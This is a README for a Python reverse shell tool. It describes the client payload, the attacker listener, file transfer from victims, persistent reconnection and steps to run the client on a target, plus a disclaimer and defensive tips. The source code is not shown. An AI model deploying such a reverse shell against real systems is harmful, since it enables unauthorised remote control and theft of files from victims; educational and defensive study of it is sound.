 # 🐚 Python Reverse Shell

## 📌 Overview

This project demonstrates a **simple reverse shell** implemented in Python. It includes two scripts:

- `client.py`: Reverse shell payload that connects back to the attacker's server.
- `server.py`: Listener that receives the connection and sends commands to the victim.

Designed for **ethical hacking demonstrations, CTFs, and educational use** only.

---

## ⚠️ Legal Disclaimer

> This tool is provided for **educational purposes only**.  
> Do not use it on networks or systems without **explicit written permission**.  
> The developers are **not responsible** for any misuse or damage caused by this software.

---

## 🚀 Features

- Remote shell command execution
- File upload/download between victim and attacker
- Base64 encoding for safe file transfer
- Persistent reconnection from the client side

---


## 🧰 Requirements

- Python 3.x
- No external dependencies (uses built-in modules: `socket`, `json`, `os`, `base64`, `subprocess`)

---

## 🛠️ Usage

### Step 1: Start the Listener (Server)

Edit the IP address in `server.py` to your machine's local IP:

```python
server('YOUR_IP', 4444)
```

Run it:

```bash
python3 server.py
```

---

### Step 2: Launch the Reverse Shell (Client)

Edit the IP address in `client.py` to match the server:

```python
server('YOUR_IP', 4444)
```

Run it on the target machine:

```bash
python3 client.py
```

---

## 🧪 Available Commands

In the server prompt (`Shell#:`), you can:

- Execute system commands (e.g., `whoami`, `ls`, `dir`, etc.)
- Navigate directories: `cd /path/to/dir`
- Download files from target: `download filename`
- Upload files to target: `upload filename`
- Exit session: `exit`

---

## 🧯 Defensive Tips

- Disable unused ports and services (especially Python in prod environments).
- Use a firewall to block outbound reverse shell attempts.
- Monitor unusual outbound connections.
- Consider using EDR or IDS to catch reverse shell behavior.

---
